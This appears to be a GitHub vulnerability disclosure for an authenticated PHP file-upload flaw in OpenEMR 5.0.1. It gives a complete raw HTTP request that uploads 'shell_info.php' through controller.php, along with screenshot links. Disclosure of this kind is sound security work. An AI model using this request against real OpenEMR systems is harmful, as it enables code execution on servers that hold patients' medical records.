 # OpenEMR_Vulnerabilities
[OpenEMR 5.0.1](https://www.open-emr.org/) allows an authenticated attacker to upload and execute malicious php codes.


# CVE-2020-XXXXX
To exploit vulnerability, someone could use 'http://[HOST]/controller.php?document&upload&patient_id=00&parent_id=4&' post request to upload malicious php codes.

```
POST /openemr-5.0.1/controller.php?document&upload&patient_id=00&parent_id=4& HTTP/1.1
Host: 172.16.155.140
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.16.155.140/openemr-5.0.1/controller.php?document&upload&patient_id=00&parent_id=4&
Content-Type: multipart/form-data; boundary=---------------------------141194333536146869123947219434
Content-Length: 842
Origin: http://172.16.155.140
DNT: 1
Connection: close
Cookie: OpenEMR=t1lugo5qrbhv7mc2c3q9ricsnl; TreeMenuBranchStatus=objTreeMenu_1_node_1_9; PHPSESSID=dfhapc4v0bskt7pcpmc2j93agq; LS-VQGNEIWNPEBSNBWE=6rm848pgjj78hhecpb9roo8af1; YII_CSRF_TOKEN=OWYyM0lybGFtRF9wcHRkZ1lldF9WblhoVHlVNk5HRW3WMnZhghJHNtBjyIuALM94Ww3gltGLoeKETBSfevfbCw%3D%3D
Upgrade-Insecure-Requests: 1

-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="MAX_FILE_SIZE"

64000000
-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="file[]"; filename="shell_info.php"
Content-Type: text/php

<?php
phpinfo();
?>
-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="destination"


-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="patient_id"

00
-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="category_id"

4
-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="process"

true
-----------------------------141194333536146869123947219434--

```

![alt tag](https://emreovunc.com/blog/en/openemr_5_0_1_php_shell_upload_001.png)

![alt tag](https://emreovunc.com/blog/en/openemr_5_0_1_php_shell_upload_002.png)

![alt tag](https://emreovunc.com/blog/en/openemr_5_0_1_php_shell_upload_003.png)

![alt tag](https://emreovunc.com/blog/en/openemr_5_0_1_php_shell_upload_004.png)

